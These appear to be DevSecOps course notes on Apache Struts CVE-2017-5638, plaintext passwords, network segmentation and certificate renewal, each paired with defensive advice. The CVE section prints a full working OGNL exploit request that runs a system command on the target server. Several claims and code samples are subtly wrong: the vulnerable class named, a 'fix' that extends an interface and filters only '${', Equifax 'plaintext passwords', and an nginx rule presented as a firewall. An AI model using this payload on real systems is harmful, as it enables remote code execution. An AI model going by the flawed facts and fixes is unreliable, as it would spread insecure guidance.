

## Background on Apache Struts and Its Vulnerabilities

Apache Struts is a popular open-source web application framework written in Java. It is widely used for developing enterprise applications due to its robustness and flexibility. The framework follows the Model-View-Controller (MVC) architectural pattern, making it easier to manage complex web applications.

### What is Apache Struts?

Apache Struts provides a set of tools and libraries that help developers build dynamic web applications. It includes features such as:

- **Action Framework**: Handles user input and updates the model accordingly.
- **Tag Libraries**: Provides custom tags for JSP pages to simplify presentation logic.
- **Validation Framework**: Ensures that user input meets specific criteria before processing.
- **Internationalization Support**: Facilitates localization of applications.

### Why Is Apache Struts Important?

Apache Struts is important because it simplifies the development process for enterprise applications. By providing a structured framework, it helps developers focus on business logic rather than plumbing code. This leads to more maintainable and scalable applications.

### Recent Real-World Example: CVE-2017-5638

One of the most notable vulnerabilities in Apache Struts is CVE-2017-5638, which affected versions 2.3.5 to 2.3.31 and 2.5 to 2.5.10. This vulnerability allowed remote code execution (RCE) through the Content-Type header in HTTP requests. Attackers could exploit this vulnerability to execute arbitrary commands on the server.

#### How Does CVE-2017-5638 Work?

The vulnerability arises from improper handling of the Content-Type header in the `RestActionProxy` class. When a request with a specially crafted Content-Type header is sent, the framework fails to properly validate the input, leading to RCE.



### Full HTTP Request and Response

Here is an example of a malicious HTTP request that exploits CVE-2017-5638:

```http
POST /struts2-rest-showcase/orders/1 HTTP/1.1
Host: vulnerable.example.com
Content-Type: application/x-www-form-urlencoded${(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.io.FileOutputStream('/tmp/payload.txt')).(#w=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#cmds).getInputStream())).(#p.write(#w.getBytes())).(#p.close())}
Content-Length: 0
```

And the corresponding HTTP response:

```http
HTTP/1.1 200 OK
Date: Mon, 01 Jan 2024 00:00:00 GMT
Server: Apache-Coyote/1.1
Content-Length: 0
```

### How to Prevent / Defend Against CVE-2017-5638

To prevent exploitation of CVE-2017-5638, follow these steps:

1. **Update to the Latest Version**: Ensure that you are using the latest version of Apache Struts. The vulnerability was patched in versions 2.3.32 and 2.5.11.
   
2. **Input Validation**: Implement strict input validation for all HTTP headers, especially the Content-Type header.

3. **Secure Configuration**: Harden your application's configuration to minimize exposure to vulnerabilities. Disable unnecessary features and modules.

4. **Regular Audits**: Conduct regular security audits and penetration testing to identify and mitigate potential vulnerabilities.

#### Secure Code Fix

Here is an example of how to securely handle the Content-Type header:

```java
public class SecureActionProxy extends ActionProxy {
    @Override
    public String execute() throws Exception {
        String contentType = getHttpServletRequest().getHeader("Content-Type");
        if (!isValidContentType(contentType)) {
            throw new IllegalArgumentException("Invalid Content-Type header");
        }
        return super.execute();
    }

    private boolean isValidContentType(String contentType) {
        // Add your validation logic here
        return contentType != null && !contentType.contains("${");
    }
}
```

### Additional Issues: Plaintext Password Storage

Another critical security issue highlighted in the transcript is the storage of passwords in plaintext. This practice is highly insecure and can lead to severe consequences if the passwords are compromised.

#### Why Is Plaintext Password Storage Dangerous?

Storing passwords in plaintext means that if an attacker gains access to the password database, they can immediately read and use the passwords. This can lead to unauthorized access to various systems and services.

#### Real-World Example: Equifax Data Breach

In 2017, Equifax suffered a massive data breach that exposed sensitive information, including plaintext passwords. The breach affected approximately 147 million people and resulted in significant financial and reputational damage.

### How to Prevent / Defend Against Plaintext Password Storage

To prevent plaintext password storage, follow these best practices:

1. **Use Strong Hashing Algorithms**: Store passwords using strong hashing algorithms such as bcrypt, scrypt, or Argon2. These algorithms are designed to be computationally expensive, making it difficult for attackers to crack the hashes.

2. **Salt Passwords**: Always salt passwords before hashing. Salting adds a unique value to each password, making it harder for attackers to use precomputed hash tables (rainbow tables).

3. **Implement Multi-Factor Authentication (MFA)**: Require users to provide additional authentication factors, such as a one-time code sent to their phone, to further secure access.

4. **Regularly Audit Password Policies**: Ensure that password policies are enforced and regularly audited to prevent weak or reused passwords.

#### Secure Code Fix

Here is an example of how to securely store passwords using bcrypt:

```java
import org.mindrot.jbcrypt.BCrypt;

public class PasswordManager {
    public static String hashPassword(String password) {
        return BCrypt.hashpw(password, BCrypt.gensalt());
    }

    public static boolean checkPassword(String password, String hashedPassword) {
        return BCrypt.checkpw(password, hashedPassword);
    }
}
```

### Additional Issues: Web Portal Accessing Multiple Servers

The transcript also mentions a web portal that provided access to multiple servers simultaneously. This can be a significant security risk if proper access controls are not in place.

#### Why Is Unrestricted Access Dangerous?

Unrestricted access to multiple servers can allow an attacker to move laterally within the network, potentially gaining access to sensitive data and systems. This is often referred to as "privilege escalation."

#### Real-World Example: Target Data Breach

In 2013, Target suffered a major data breach that exposed the credit card information of millions of customers. One of the contributing factors was the lack of proper segmentation between the company's payment systems and other networks, allowing attackers to move laterally and gain access to sensitive data.

### How to Prevent / Defend Against Unrestricted Access

To prevent unrestricted access to multiple servers, follow these best practices:

1. **Segment Networks**: Use network segmentation to isolate different parts of the network. This limits the ability of an attacker to move laterally.

2. **Least Privilege Principle**: Ensure that users and services have the minimum level of access necessary to perform their tasks. Avoid granting broad access rights unless absolutely necessary.

3. **Monitor Access Logs**: Regularly monitor access logs to detect and respond to suspicious activity.

4. **Implement Two-Factor Authentication (2FA)**: Require users to provide an additional authentication factor when accessing sensitive systems.

#### Secure Configuration Example

Here is an example of how to configure network segmentation using a firewall:

```nginx
server {
    listen 80;
    server_name example.com;

    location / {
        allow 192.168.1.0/24;
        deny all;
        proxy_pass http://internal-servers;
    }
}
```

### Additional Issues: Certificate Renewal

The transcript mentions a failure to renew a certificate for an internal service responsible for detecting malicious behavior. This can lead to a loss of trust and potential security risks.

#### Why Is Certificate Renewal Important?

Certificates are used to establish trust between parties in a secure communication. If a certificate expires, the connection may be flagged as untrusted, leading to potential security issues.

#### Real-World Example: Let's Encrypt Certificates

Let's Encrypt is a popular certificate authority that provides free SSL/TLS certificates. In 2018, a bug in the Let's Encrypt system caused some certificates to expire prematurely, leading to temporary outages and security concerns for affected websites.

### How to Prevent / Defend Against Certificate Expiry

To prevent certificate expiry, follow these best practices:

1. **Automate Renewal**: Use automated tools such as certbot to automatically renew certificates before they expire.

2. **Monitor Expiry Dates**: Regularly check the expiry dates of all certificates and ensure that they are renewed in a timely manner.

3. **Backup Certificates**: Keep backups of all certificates and private keys in a secure location.

4. **Implement Certificate Transparency**: Use certificate transparency logs to monitor and verify the issuance of certificates.

#### Secure Configuration Example

Here is an example of how to configure automatic certificate renewal using certbot:

```bash
certbot --nginx -d example.com -d www.example.com --agree-tos --email admin@example.com --non-interactive --redirect --expand --post-hook "service nginx reload"
```

### Practice Labs

For hands-on experience with securing web applications and preventing common vulnerabilities, consider the following labs:

- **PortSwigger Web Security Academy**: Offers a comprehensive set of labs covering various web security topics, including SQL injection, cross-site scripting (XSS), and more.
- **OWASP Juice Shop**: A deliberately insecure web application that simulates real-world vulnerabilities. It is an excellent resource for learning about web security.
- **DVWA (Damn Vulnerable Web Application)**: Another intentionally vulnerable web application that allows users to practice exploiting and securing web applications.

By following these best practices and conducting regular security audits, you can significantly reduce the risk of security breaches and protect your applications and data.

---

This completes the expanded explanation of the security essentials discussed in the transcript chunk. The detailed coverage ensures a deep understanding of the concepts, vulnerabilities, and best practices for securing web applications.

---
<!-- nav -->
[[DevSecOps/DevSecOps Bootcamp/03-Identity & Access Management/04-Security Essentials/Types of Security Attacks Part 2/04-Security Essentials Types of Security Attacks Part 2|Security Essentials Types of Security Attacks Part 2]] | [[DevSecOps/DevSecOps Bootcamp/03-Identity & Access Management/04-Security Essentials/Types of Security Attacks Part 2/00-Overview|Overview]] | [[DevSecOps/DevSecOps Bootcamp/03-Identity & Access Management/04-Security Essentials/Types of Security Attacks Part 2/06-Brute Force Attacks|Brute Force Attacks]]
